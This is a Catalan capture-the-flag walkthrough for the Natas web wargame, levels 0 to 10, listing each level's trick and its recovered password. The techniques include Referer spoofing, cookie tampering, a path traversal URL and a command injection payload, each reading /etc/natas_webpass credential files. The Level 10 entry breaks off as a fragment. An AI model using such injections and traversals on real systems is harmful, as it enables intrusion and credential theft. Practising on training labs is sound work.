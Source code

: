 # LEVEL 0

Inspeccionem l'element i podrem veure un comentari en el div "content", la password és:

```
g9D9cREhslqBKtcA2uocGHPfMZVzeFK6
```

# LEVEL 1

Al estar bloquejat el click dret fiquem 
view-source:http://natas1.natas.labs.overthewire.org/

```
h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7
```

# LEVEL 2

Inspeccionem i veiem que carrega una imatge i té la ruta de /files. Accedim i veiem que en aquest directori hi ha un fitxer users.txt

```
# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```

# LEVEL 3

En el codi no trobem res, mirem el robots.txt i viem que surt /s3cr3t/ entrem en aquest directori i trobem el fitxer users.txt amb la password.

```
tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm
```

# LEVEL 4

Modifiquem la petició amb el BurpSuite ja que ens diu que només accepta peticions del natas5 i modifiquem el referer per http://natas5.natas.labs.overthewire.org/

```
Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD
```


# LEVEL 5

Mirem la petició amb el BurpSuite, veiem que té un parametre que té el valor 0, li fiquem el valor 1 i ja podem entrar .Cookie: loggedin=0

```
fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR
```

# LEVEL 6

Si cliquem a view source, podem veure un tros de codi php on viem un include includes/secret.inc, aqui dins hi ha una variable amb la contrasenya que hem de ficar al input per poder obtenir la contrasenya del Natas7.
Fallo: secret de forma gloabal

```
jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr
```

# LEVEL 7

index.php?page= obre la pàgina, si mirem el codi veiem que el password esta /etc/natas_webpass/natas8
Fallo: path traversal

http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8


```
a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB
```
# LEVEL 8

<?php
function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

function decode($secret){
	return base64_decode(strrev(hex2bin($secret)));
}

echo (decode("3d3d516343746d4d6d6c315669563362"));

```
Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd
```
# LEVEL 9
;cat /etc/natas_webpass/natas10

```
D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE
```

# LEVEL 10
a /etc/natas_webpass/natas10

natas









